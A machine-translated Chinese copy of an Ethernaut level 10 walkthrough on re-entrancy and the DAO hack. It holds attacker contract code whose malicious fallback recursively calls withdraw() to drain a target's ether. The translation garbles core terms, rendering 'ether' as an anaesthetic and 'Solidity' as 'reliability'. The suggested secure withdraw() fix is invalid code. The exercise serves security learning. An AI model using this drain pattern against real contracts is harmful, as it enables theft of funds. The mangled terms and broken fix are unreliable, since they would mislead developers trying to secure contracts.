



# Ethernaut Lvl 10 重入演练:如何滥用执行排序和重现 DAO hack

> 原文：<https://medium.com/coinmonks/ethernaut-lvl-10-re-entrancy-walkthrough-how-to-abuse-execution-ordering-and-reproduce-the-dao-7ec88b912c14?source=collection_archive---------1----------------------->

## 这是一个围绕 [Zeppelin](https://openzeppelin.org/) 团队的[智能合约安全拼图](https://ethernaut.zeppelin.solutions/)的[深度系列](/@nicolezhu)。我们学习关键的可靠性概念，以便 100%靠自己解决难题。

这个关卡需要你从契约中偷出所有的乙醚。

# `What is re-entrancy`

重入发生在单线程计算环境中，当执行堆栈**跳转**或**调用**子例程时，在返回到原始执行之前。

一方面，这种单线程执行确保了契约的原子性，并消除了一些竞争条件。另一方面，**合同容易受到执行顺序不佳的影响。**



**Example of poor code ordering**: transferring the amount before deducting from internal balances ledger

在上面的例子中，合同 B 是一个恶意合同，它递归地调用 A . retract()来耗尽合同 A 的资金。请注意，在合约 A 从其递归循环返回之前，资金提取成功完成，甚至意识到 B 已经提取了远远超过其自身余额的金额。

这个以太网级别利用了这个可重入性问题以及导致 [DAO hack](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/) 的其他因素:

*   回退功能[可以被任何人调用&执行恶意代码](https://hackernoon.com/ethernaut-lvl-1-walkthrough-how-to-abuse-the-fallback-function-118057b68b56)
*   恶意外部合同[可以滥用提款](/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b)

# 详细演练



1.  创建一个名为`Reenter.sol`的恶意合同，该合同会先向`Reentrance.sol`捐款，然后递归退出，直到 Reentrance 资金耗尽。

```
contract Reenter {
    Reentrance public original = Reentrance(YOUR_INSTANCE_ADDR);
    uint public amount = 1 ether;    //withdrawal amount each time
}
```

2.在合同施工时用醚播种`Reenter.sol`;

```
constructor() public payable {
}
```

3.创建一个公共功能，以便`Reenter.sol`可以向`Reentrance.sol`捐款，并在其`balances`分类帐中注册为捐款人:

```
function donateToSelf() public {
    original.donate.value(amount).gas(4000000)(address(this));//need to add value to this fn
  }
```

调用这个函数将确保你的恶意契约至少能够调用`withdraw()`一次，即通过`if(balances[msg.sender] >= _amount)`检查。



上图展示了让`Reenter.sol`从`Reentrance.sol`提取所有资金的递归循环。

让我们在契约 B 中实现一个恶意回退功能，这样当契约 A 执行`msg.sender.call.value(_amount)()`来退还契约 B 时，您的恶意契约会触发更多的提款。

4.实现此恶意回退功能:

```
function() public payable {
    if (address(original).balance != 0 ) {
        original.withdraw(amount); 
    }
}
```

5.最后，在 Remix 中:将你的合同部署到 Ropsten，用乙醚播种，捐赠给`Reentrance`，然后调用你的后备功能耗尽`Reentrance`的所有资金。

# 关键安全要点

*   执行的顺序在可靠性方面真的很重要。如果您必须进行外部函数调用，请进行最后一项操作(在所有必要的检查和平衡之后):

```
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
        balances[msg.sender] -= _amount;         
        if(msg.sender.transfer(_amount)()) {
            _amount;
        }
    }
}
// Or even better, invoke transfer in a separate function
```

*   包括一个**互斥**来防止重入，例如使用一个布尔`lock`变量来表示执行深度。
*   使用**函数修饰符**检查不变量时要小心:修饰符在函数开始时执行。如果变量状态在整个函数中会改变，考虑将修饰符提取到位于函数中正确行的检查中。
*   “使用`transfer`将资金移出你的合同，因为它`throw` s 和限制天然气期货。像`call`和`send`这样的低级函数只是返回 false，但不会在接收契约失败时中断执行流程。”—从以太网级别
*   点击这里查看 DAO hack 的完整[分析。](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)

# 更多级别

[](/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b) [## 以太者 Lvl 9 国王演练:如何糟糕的合同可以滥用提款

### 这是一个围绕齐柏林团队的智能合同安全难题的深入系列。我们学习关键的可靠性概念…

medium.com](/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b) [](/coinmonks/ethernaut-lvl-11-elevator-walkthrough-how-to-abuse-solidity-interfaces-and-function-state-41005470121d) [## Ethernaut Lvl 11 电梯演练:如何滥用 Solidity 接口和功能状态…

### 这是一个围绕齐柏林团队的智能合同安全难题的深入系列。我们学习关键的可靠性概念…

medium.com](/coinmonks/ethernaut-lvl-11-elevator-walkthrough-how-to-abuse-solidity-interfaces-and-function-state-41005470121d) 

> [直接在您的收件箱中获得最佳软件交易](https://coincodecap.com/?utm_source=coinmonks)

[](https://coincodecap.com/?utm_source=coinmonks)